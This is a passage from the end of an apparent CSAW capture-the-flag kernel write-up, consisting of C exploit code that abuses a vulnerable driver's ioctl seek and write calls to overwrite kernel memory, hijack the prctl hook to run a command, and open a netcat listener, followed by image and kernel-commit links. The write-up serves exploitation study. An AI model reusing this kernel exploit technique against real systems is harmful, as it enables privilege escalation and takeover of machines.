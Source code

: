 ```C
	//strcpy(buf,"/bin/chmod 777 /flag\0");
	
	seek_args.id =  alloc_args.id;
	seek_args.index = order_cmd-0x10 ;
	seek_args.whence= SEEK_SET;	
	ioctl(fd,CSAW_SEEK_CHANNEL,&seek_args);
	
	write_args.id = alloc_args.id;
	write_args.buf = buf;
	write_args.count = strlen(buf);
	ioctl(fd,CSAW_WRITE_CHANNEL,&write_args);

	memset(buf,'\0',0x1000);
	*(size_t *)buf = poweroff_work_func_addr;
	seek_args.id =  alloc_args.id;
	seek_args.index = prctl_hook-0x10 ;
	seek_args.whence= SEEK_SET;	
	ioctl(fd,CSAW_SEEK_CHANNEL,&seek_args);
	
	write_args.id = alloc_args.id;
	write_args.buf = buf;
	write_args.count = 20+1;
	ioctl(fd,CSAW_WRITE_CHANNEL,&write_args);	

	if(fork() == 0){
		prctl(0);
		exit(-1);
	}

	system("nc -l -p 23333");
	return 0;
}
```
![image_1e7t6hsg68ojri3mu3dq1gll1t.png-39.6kB][10]


  [1]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=018ef8dcf3de5f62e2cc1a9273cc27e1c6ba8de5
  [2]: http://static.zybuluo.com/leafish/7kllxk3wq7npozo6ay31u34v/image_1e7t7btk61ih1ejb14smvk6ahe9.png
  [3]: http://static.zybuluo.com/leafish/ic34zdg3ad9pzjmdlexkscfr/image_1e7ng9lll1b8o3c618pi5d21h419.png
  [4]: http://static.zybuluo.com/leafish/kday5phaa948j024wr5zp6vu/image_1e7nsim15g5s1asa10oq1pmb1kaa9.png
  [5]: http://static.zybuluo.com/leafish/tyqt2hszfcv4dryegu5wcmdn/image_1e7nssvpm1nfrnononklo11gt6m.png
  [6]: http://static.zybuluo.com/leafish/y85k77eqmfr00x5v9fiqixcd/image_1e7ruv5ad1oq018ja10h14ft1qej13.png
  [7]: http://static.zybuluo.com/leafish/u3wt7758a10e22r0n4d06hpp/image_1e7rup6i21t73195b3a7iugto79.png
  [8]: http://static.zybuluo.com/leafish/2hwyuqcz7k70pihgu2zn4pqj/image_1e7rv1ckk76o11i81cadog7ee91g.png
  [9]: http://static.zybuluo.com/leafish/fvprvqa9klbq96h1opkzyalf/image_1e7rurbdg1jf01ie310mqkss1e88m.png
  [10]: http://static.zybuluo.com/leafish/bzbhhjvgu1j3qsodbcz3vngn/image_1e7t6hsg68ojri3mu3dq1gll1t.png